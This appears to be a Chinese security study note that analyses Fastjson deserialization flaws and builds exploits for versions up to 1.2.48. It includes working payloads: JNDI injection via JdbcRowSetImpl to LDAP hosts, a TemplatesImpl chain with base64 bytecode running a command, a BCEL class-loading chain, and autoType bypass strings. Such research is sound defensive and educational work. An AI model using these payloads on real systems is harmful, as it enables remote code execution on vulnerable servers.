而默认的DEFAULT_TYPE_KEY就是@type，就是获取key以后会做一个特殊的调整，表示应该做java反序列化还是单纯的json反序列化，这里匹配到@type，所以后续要Java反序列化

我们可以看到对类进行了**loadClass**加载，然后后面我们就要按照Java的逻辑来进行反序列化操作，这里第一步就是获取了反序列化器，然后用反序列化器进行反序列化操作


我们重点对反序列化过程进行分析，这里在创建反序列化器的时候需要先获取类里面的内容，跟进到config类


我们可以看到大概在这里有一个判断反序列化类内容的过程，如果不属于上面的几种类型，则通过JavaBean来解析类，继续跟进createJavaBeanDeserializer方法


首先检查asm是否启用，如果启用则进入asm过程

> ASM是一种高性能的JSON序列化和反序列化技术，它通过在运行时动态选择合适的方法来处理JSON数据，以提高性能。默认情况下，Fastjson会根据系统环境决定是否启用ASM。
>
> 如果`asmEnable`为`true`，则启用ASM，这可以在序列化和反序列化JSON时提供更好的性能。如果`asmEnable`为`false`，则禁用ASM，这将使用默认的序列化和反序列化方法。
>
> 请注意，`asmEnable`是Fastjson内部的一个设置，通常不需要用户手动配置。Fastjson会根据系统环境自动进行判断和设置。

其中用于获取类内容是通过`JavaBeanInfo.build`函数，跟进到build函数


分析发现build函数的整个逻辑，先遍历了一遍method（set），然后遍历了一遍public fields，然后又遍历了一遍method（get）

满足set的条件如下


满足get的条件如下


最后再返回JavaBeanInfo对象


### 原理

接下来我们分析一下fastjson的漏洞链

通过上面的分析我们知道，在反序列化时，parse触发了set方法，parseObject同时触发了set和get方法，由于存在这种`autoType`特性。如果`@type`标识的类中的setter或getter方法存在恶意代码，那么就有可能存在fastjson反序列化漏洞。

Fastjson 序列化对象的方法主要是`toJSONString` 方法，而反序列化还原对象的方法有3个

```java
parse(String text);
parseObject(Srting text, Class\clazz);
parseObject(String text);
```

我们来看看三种方法返回的类型：

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
//        String s = "{\"param1\":\"test1\",\"param2\":\"test2\"}";
//        String s2 = "{\"age\":18,\"name\":\"Y5neKO\"}";
//        JSONObject jsonObject = JSON.parseObject(s);
//        Person person = JSON.parseObject(s2, Person.class);
//        System.out.println(jsonObject);
//        System.out.println(jsonObject.getString("param1"));
//        System.out.println("------------");
//        System.out.println(person.getName());
        String s3 = "{\"@type\":\"com.y5neko.sec.fastjson.Person\",\"age\":18,\"name\":\"abc\"}";
        Object object1 = JSON.parse(s3);
        Object object2 = JSON.parseObject(s3, Person.class);
        Object object3 = JSON.parseObject(s3);
        System.out.println("-------------");
        System.out.println("object1:");
        System.out.println(object1);
        System.out.println("-------------");
        System.out.println("object2:");
        System.out.println(object2);
        System.out.println("-------------");
        System.out.println("object3:");
        System.out.println(object3);

    }
}
```


#### **特点**

- **FastJson不需要实现Serializable**
- **不需要变量不是transient/可控变量：**
  1. 变量有对应的setter
  2. 或是public/static
  3. 或满足条件的getter(返回值是)：
- **反序列化入口点不是readObject，而是setter或者是getter**
- **执行点是相同的：反射或者类加载**

### FastJson<1.2.24

#### `JdbcRowSetImpl`类+JNDI注入（出网）

##### 分析

首先我们找到一个JNDI注入


可以看到调用了getDataSourceName方法，因此我们看一下`getDataSourceName`下面的参数可不可控，可以看到存在setter方法，所以可控



我们就要找一下对应的setter或者是符合条件的getter方法能够调用connect的方法


一共找到了三处，其中get并不满足要求，所以我们选择set


##### EXP

现在我们来构造exp，用yakit开一个dnslog

```java
package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
        String s3 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://fastjson.eyutdtslkb.dgrh3.cn/rNMfFuPI\",\"AutoCommit\":\"false\"}}";
        Object object1 = JSON.parse(s3);
        Object object2 = JSON.parseObject(s3, Person.class);
        Object object3 = JSON.parseObject(s3);
    }
}
```


说明反序列化利用成功，直接起一个JNDI反连


##### 限制

因为需要反连，所以要求出网

#### `TemplatesImpl`

基于TemplatesImpl类的利用链，该类会把_bytecodes属性的字节码内容加载并实例化

> PS：需要开启parse的Feature.SupportNonPublicField参数

##### 分析

首先我们来分析一下`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`

我们需要找到一个存在漏洞的getter或者setter，我们找到了这个方法`getOutputProperties()`，在parseObject反序列化时会调用

getOutputProperties内部调用了newTransformer()方法，而newTransformer()内部调用了getTransletInstance()方法获取Translet对象


继续跟进内部，其中通过defineTransletClasses获取字节码来生成返回的Translet对象


而defineTransletClasses方法则通过内部的私有变量_bytecodes生成返回的Translet对象


这里这个\_bytecodes私有变量就是整个攻击设计的核心所在，虽然FastJson默认只能反序列化公有属性，但是可以在JSON串中指定\_bytecodes为我们恶意攻击类的字节码，同时调用`JSON.parseObject(json, Object.class, Feature.SupportNonPublicField)`来反序列化私有属性，那么_bytecodes就可以是任意指定代码

也就是说，如果事先定义好了Translet返回Class类的内容，并且在自定义的Translet类的构造函数中实现攻击代码，并且把攻击代码转化成字节码，传入TemplatesImpl的私有变量_bytecodes中，那么反序列化生成TemplatesImpl时就会使用我们自定义的字节码来生成Translet类，从而触发Translet构造函数中的攻击代码

##### EXP

首先构造一个恶意类，继承自AbstractTranslet类，因为时抽象类所以要实现其中的两个方法

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TemplatesImplPayload extends AbstractTranslet {
    static {
        System.err.println("Success");
        try {
            String[] cmd = {"calc"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
        // anything
    }

    @Override
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
        // anything
    }
}
```

编译成class文件后读取字节码，再转成base64

```
yv66vgAAADQASwoADQAqCQArACwIAC0KAC4ALwcAMAgAMQoAMgAzCgAyADQKADUANgcANwoACgA4BwA5BwA6AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAC5MY29tL3k1bmVrby9zZWMvZmFzdGpzb24vVGVtcGxhdGVzSW1wbFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEYXJnMAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEABGFyZzEBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwA7AQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAEYXJnMgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAANjbWQBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADVN0YWNrTWFwVGFibGUHADcBAApTb3VyY2VGaWxlAQAZVGVtcGxhdGVzSW1wbFBheWxvYWQuamF2YQwADgAPBwA8DAA9AD4BAAdTdWNjZXNzBwA/DABAAEEBABBqYXZhL2xhbmcvU3RyaW5nAQAEY2FsYwcAQgwAQwBEDABFAEYHAEcMAEgASQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAEoADwEALGNvbS95NW5la28vc2VjL2Zhc3Rqc29uL1RlbXBsYXRlc0ltcGxQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANlcnIBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAAd3YWl0Rm9yAQADKClJAQAPcHJpbnRTdGFja1RyYWNlACEADAANAAAAAAAEAAEADgAPAAEAEAAAAC8AAQABAAAABSq3AAGxAAAAAgARAAAABgABAAAAEQASAAAADAABAAAABQATABQAAAABABUAFgACABAAAAA/AAAAAwAAAAGxAAAAAgARAAAABgABAAAAHwASAAAAIAADAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACABAAAABJAAAABAAAAAGxAAAAAgARAAAABgABAAAAJAASAAAAKgAEAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAHgACAAAAAQAfACAAAwAbAAAABAABABwACAAhAA8AAQAQAAAAhwAEAAEAAAAmsgACEgO2AAQEvQAFWQMSBlNLuAAHKrYACLYACVenAAhLKrYAC7EAAQAIAB0AIAAKAAMAEQAAAB4ABwAAABMACAAVABIAFgAdABkAIAAXACEAGAAlABoAEgAAABYAAgASAAsAIgAjAAAAIQAEACQAJQAAACYAAAAHAAJgBwAnBAABACgAAAACACk=
```

把恶意类的字节码构造进json即可

```json
package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import javassist.ClassPool;
import javassist.CtClass;
import java.util.Base64;

public class TemplatesImpl {
    static String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    public static void main(String[] args) throws Exception {
        String TemplatesImplPayload = "yv66vgAAADQASwoADQAqCQArACwIAC0KAC4ALwcAMAgAMQoAMgAzCgAyADQKADUANgcANwoACgA4BwA5BwA6AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAC5MY29tL3k1bmVrby9zZWMvZmFzdGpzb24vVGVtcGxhdGVzSW1wbFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEYXJnMAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEABGFyZzEBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwA7AQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAEYXJnMgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAANjbWQBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADVN0YWNrTWFwVGFibGUHADcBAApTb3VyY2VGaWxlAQAZVGVtcGxhdGVzSW1wbFBheWxvYWQuamF2YQwADgAPBwA8DAA9AD4BAAdTdWNjZXNzBwA/DABAAEEBABBqYXZhL2xhbmcvU3RyaW5nAQAEY2FsYwcAQgwAQwBEDABFAEYHAEcMAEgASQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAEoADwEALGNvbS95NW5la28vc2VjL2Zhc3Rqc29uL1RlbXBsYXRlc0ltcGxQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANlcnIBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAAd3YWl0Rm9yAQADKClJAQAPcHJpbnRTdGFja1RyYWNlACEADAANAAAAAAAEAAEADgAPAAEAEAAAAC8AAQABAAAABSq3AAGxAAAAAgARAAAABgABAAAAEQASAAAADAABAAAABQATABQAAAABABUAFgACABAAAAA/AAAAAwAAAAGxAAAAAgARAAAABgABAAAAHwASAAAAIAADAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACABAAAABJAAAABAAAAAGxAAAAAgARAAAABgABAAAAJAASAAAAKgAEAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAHgACAAAAAQAfACAAAwAbAAAABAABABwACAAhAA8AAQAQAAAAhwAEAAEAAAAmsgACEgO2AAQEvQAFWQMSBlNLuAAHKrYACLYACVenAAhLKrYAC7EAAQAIAB0AIAAKAAMAEQAAAB4ABwAAABMACAAVABIAFgAdABkAIAAXACEAGAAlABoAEgAAABYAAgASAAsAIgAjAAAAIQAEACQAJQAAACYAAAAHAAJgBwAnBAABACgAAAACACk=";

        String payload =
                "{\"" +
                        "@type\":\"" + NASTY_CLASS + "\"," + "\"" +
                        "_bytecodes\":[\"" + TemplatesImplPayload + "\"]," +
                        "'_name':'asd','" +
                        "_tfactory':{ },\"" +
                        "_outputProperties\":{ }," + "\"" +
                        "_version\":\"1.0\",\"" +
                        "allowedProtocols\":\"all\"}\n";
        System.out.println(payload);
        ParserConfig config = new ParserConfig();
        Object obj = JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
    }

}
```


#### FastJsonBcel类+动态类加载（不出网）

##### 分析

jdk的内置类中找到了这样一方法，能够进行动态类加载，就是ClassLoader里面的loadClass方法，在里面调用了defineClass：


我们可以看到，如果要调用defineClass方法，要保证clazz不为null，我们就需要调用前面的createClass方法


里面通过decode方法加载了字节码，因此payload中需要先进行一次encode编码，大致构造一下payload结构

```java
package com.y5neko.sec.fastjson;

import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("H:\\Java_Project\\Java_Security\\out\\production\\Java_Security\\com\\y5neko\\sec\\fastjson\\TemplatesImplPayload.class");
        String code = Utility.encode(bytes,true);
        //BCEL加载
        classLoader.loadClass("$$BCEL$$" + code).newInstance();
    }
    private static byte[] convert(String s) throws Exception{
    }
}
```

接下来我们考虑怎么调用loadClass方法，分析发现在tomcat包下面找到了一个BasicDataSource的类，里面的createConnectionFactory方法调用了forName方法，这里forName方法的底层逻辑其实调用了loadClass方法，所以如果我们让**dirverClassLoader**等于ClassLoader，让**dirverClassName**等于我们自己的恶意类，就可以执行。


恰好这两个变量还能够通过setter方法进行可控


接下来看哪里能够调用forName方法对应的createConnectionFactory方法


最后我们找到了createDataSource方法，继续分析用法，最终找到了getConnection方法


##### EXP

根据上面的分析，我们大致可以构造一条调用流程

```java
package com.y5neko.sec.fastjson;

import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        //转字节码
        byte[] bytes = convert("H:\\Java_Project\\Java_Security\\out\\production\\Java_Security\\com\\y5neko\\sec\\fastjson\\TemplatesImplPayload.class");
        String code = Utility.encode(bytes,true);
        //BCEL加载
        //classLoader.loadClass("$$BCEL$$" + code).newInstance();

        System.out.println(code);

        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName("$$BCEL$$" + code);
        basicDataSource.getConnection();

    }
    private static byte[] convert(String filePath) throws Exception {
        File file = new File(filePath);
        if (!file.exists()) {
            throw new Exception("文件不存在");
        }
        //读取文件为字节码
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }
            return byteOutput.toByteArray();
        }
    }
}
```

把调用过程转换成fastjson payload

**FastjsonBcelPayload.java**

```java
package com.y5neko.sec.fastjson;

public class FastjsonBcelPayload {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {

        }
    }
}
```

**EXP**

```java
package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        //转字节码
        byte[] bytes = convert("H:\\Java_Project\\Java_Security\\out\\production\\Java_Security\\com\\y5neko\\sec\\fastjson\\FastjsonBcelPayload.class");
        String code = Utility.encode(bytes,true);
        //BCEL加载
        //classLoader.loadClass("$$BCEL$$" + code).newInstance();

        System.out.println(code);

//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$" + code);
//        basicDataSource.getConnection();
        String string = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
                "\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}," +
                "\"driverClassName\":\"$$BCEL$$" + code + "\"}";

        JSON.parseObject(string);
    }
    private static byte[] convert(String filePath) throws Exception {
        File file = new File(filePath);
        if (!file.exists()) {
            throw new Exception("文件不存在");
        }
        //读取文件为字节码
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }
            return byteOutput.toByteArray();
        }
    }
}
```


### FastJson<=1.2.47绕过

我们可以发现在1.2.25中，对`@type`进行了修复，检测了是否能够进行`AutoType`，而1.2.24在这里是直接进行`loadClass`，所以我们就要对这里进行一个绕过

> 见FastJSON->分析->parseObject

#### 分析

我们跟进到parseObject方法


可以看到在这里引入了checkAutoType方法检测AutoType，检验流程


分析一下五种能加载类的方法

- 在第一个中，因为在白名单中才能够进行缓存，所以这里不符合要求
- 在第二个返回类当中，期望类为空且类与期望类一致的时候返回类，这里我们的期望类为空，所以这里能够符合条件，所以我们在往上找，只要缓存中存在类，我们就能够进行加载。
- 第三个也是白名单限制
- 第四个是基于期望类的，因为这里和期望类并无关所以也满足不了
- 进入false来到第五个，又因为默认情况下AutoType为false，所以也加载不了

也就是说我们只能通过第二个想办法


接下来详细分析一下如何在缓存中加载我们需要的类

我们跟进getClassFromMapping方法中，从里面找mapping里面的缓存


然后在loadClass中我们可以发现是有可能对类进行控制的，其他地方都是指定了一些基础类进行的缓存，而loadClass这里只要我们加载类成功以后，他就会放入缓存中，下次调用直接从缓存中进行加载，这里我们就要想怎么才能够在loadClass的时候将我们的类加载入缓存当中

继续查找loadClass用法


最后确定了MiscCodec里面的deserialize函数中，当clazz==Class.class的时候会进行调用，然后我们来观察MiscCodec可以发现，他继承了反序列化和序列化的接口，在fastJson的反序列化中也会把他当作反序列化器来进行调用


如果FastJson反序列化的类是属于Class.class的时候，就会调用MiscCodec反序列化器，然后调用loadClass，传入我们想传入的字符串strVal，然后在loadClass中作为String className进行加载并放在缓存里面。


具体赋值在MiscCodec的deserialize方法


我们可以看到这里的`parser`对应的就是后面的`lexer.stringVal`比较，必须满足是val才能够不抛出异常，所以我们就让string=val就可以，然后后面我们对应反序列化的内容为恶意类就可以

#### EXP

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;

public class FastjsonBypass_1247 {
    public static void main(String[] args) {
        String payload = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://ysmdiskerm.dgrh3.cn/ZGBWoLkn\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(payload);
    }
}
```


### FastJson1.2.25-1.2.41绕过

在上个分析提到过，在缓存中获取类的下面有两个判断，也就是说在我们开启AutoType的情况下可以用下面两种方式来进行绕过：

- 如果以`[`开头则去掉`[`后进行类加载（在之前Fastjson已经判断过是否为数组了，实际走不到这一步）
- 如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载

#### EXP

```java
package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastjsonBypassL {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/ZGBWoLkn\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

### FastJson1.2.42绕过

1.2.42相较于之前的版本，关键是在`ParserConfig.java`中修改了1.2.41前的代码

- 对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```java
{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/ZGBWoLkn\",\"AutoCommit\":1}";
```

### FastJson1.4.43绕过

1.2.43版本修改了`checkAutoType()`的部分代码，对于LL等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

### FastJson原生反序列化

依靠其他依赖的利用链，总归会受到环境的影响，因此我们可以尝试找出fastjson的原生反序列化链

#### FastJson<=1.2.48

在FastJson包里面找到继承Serializable接口的类，最后锁定的是这两个类：`JSONObject`和`JSONArray`类

**JSONArray类利用链**

首先我们要找到入口点，就是readObject方法，但是我们却发现`JSONArray`中并不存在`readObject`方法，并且他`extends`对应的`JSON`类也没有readObect方法，所以这里我们只有通过其他类的readObject方法来触发JSONArray或者JSON的某个方法来实现调用链。

这里我们就要引入toString方法，我们可以发现在Json类中存在toString方法能够触发toJSONString方法的调用。然后我们再来探索一下

如果可以触发getter方法，就能够进行进一步的调用链

**Person.java**

```java
package com.y5neko.sec.fastjson;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age){this.name = name;this.age = age;}

    public Person(){System.out.println("constructor被调用了");}

    public String getName() {System.out.println("getName被调用了");return this.name;}

    public void setName(String name) {System.out.println("setName被调用了");this.name = name;}

    public int getAge() {System.out.println("getAge被调用了");return this.age;}

    public void setAge(int age) { System.out.println("setAge被调用了");this.age = age;}
}
```

**NativeDemo.java**

```java
package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;

public class NativeDemo {
    public static void main(String[] args) throws Exception{
        Person person = new Person();
        String JSON_Serialize = JSON.toJSONString(person);
        System.out.println(JSON_Serialize);
    }
}
```


综上分析，我们找到一个能够readObject的类，调用toString方法，然后调用toJSONString方法，再调用getter，即可实现反序列化利用。


### fastjson面试总结 by 寒神

fastjson 1.2.24
TemplatesImpl。 服务端开启特殊参数 Feature.SupportNonPublicFiel
